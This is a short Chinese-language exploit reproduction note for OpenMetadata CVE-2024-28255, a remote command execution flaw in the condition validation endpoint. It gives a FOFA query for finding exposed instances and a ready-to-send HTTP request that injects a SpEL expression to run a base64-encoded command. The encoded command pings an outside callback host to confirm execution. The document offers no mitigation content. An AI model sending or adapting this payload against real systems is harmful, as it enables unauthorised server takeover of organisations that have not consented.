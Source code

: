 # OpenMetadata CVE-2024-28255 命令执行漏洞

# 一、漏洞简介
OpenMetadata是一个用于数据治理的一体化平台，可以帮助我们发现，协作，并正确的获取数据。其提供了数据发现、数据血缘、数据质量、数据探查、数据治理和团队协作的一体化平台。它是发展最快的开源项目之一，拥有充满活力的社区，并被各行业垂直领域的众多公司采用。 OpenMetadata 由基于开放元数据标准和API 的集中式元数据存储提供支持，支持各种数据服务的连接器，可实现端到端元数据管理，让您可以自由地释放数据资产的价值。其condition接口存在CVE-2024-28255远程命令执行漏洞，可被攻击者接管服务器。

# 二、影响版本
+ OpenMetadata

# 三、资产测绘
+ fofa`icon_hash="733091897"`
+ 特征

![1714216467929-a292c9d9-b9e2-44ff-9e43-9b167be9754a.png](./img/sj9XAYKGaL4hMSo3/1714216467929-a292c9d9-b9e2-44ff-9e43-9b167be9754a-611877.png)

# 四、漏洞复现
执行的命令需base64编码

```plain
GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22cGluZyB3YnJ6ZmtxamN5LmRncmgzLmNu%22))) HTTP/1.1
Host: 
User-Agent: Mozilla/2.0 (compatible; MSIE 3.01; Windows 95
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Connection: close
```

![1714216506355-e0737ddc-db9a-46fd-a0e8-7de860167cb0.png](./img/sj9XAYKGaL4hMSo3/1714216506355-e0737ddc-db9a-46fd-a0e8-7de860167cb0-461663.png)



> 更新: 2024-04-28 16:11:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pz2p78tho923aukc>